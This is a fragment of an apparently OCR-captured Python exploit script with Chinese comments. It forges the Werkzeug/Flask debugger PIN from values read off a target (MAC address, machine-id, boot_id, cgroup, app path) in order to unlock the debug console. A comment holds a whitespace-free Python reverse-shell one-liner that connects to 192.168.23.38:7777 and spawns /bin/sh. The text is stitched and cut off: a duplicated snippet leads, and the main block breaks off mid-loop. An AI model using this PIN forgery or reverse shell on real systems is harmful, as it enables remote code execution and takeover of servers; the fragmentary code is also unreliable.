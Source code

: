 ```python
 
num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]
 
rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num
 
print(rv)
```


```python
# sha1算法，适用于高版本flask

# 无空格Python弹shell
# python3$IFS-c$IFS'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("192.168.23.38",7777));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
import hashlib
from itertools import chain
probably_public_bits = [
    '_apt'# /etc/passwd
    'flask.app',# 默认值
    'Flask',# 默认值
    '/usr/local/lib/python3.10/site-packages/flask/app.py' # 报错得到
]

private_bits = [
    str(int("a6:37:fe:77:e3:0f".replace(":",""),16)),#  /sys/class/net/eth0/address 16进制转10进制
    #machine_id由三个合并(docker就后两个)：1./etc/machine-id 2./proc/sys/kernel/random/boot_id 3./proc/self/cgroup
    '96cec10d3d9307792745ec3b85c89620'+'867ab5d2-4e57-4335-811b-2943c662e936'+'0::/system.slice/superpass.service'#  /proc/self/cgroup
]
import uuid

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
```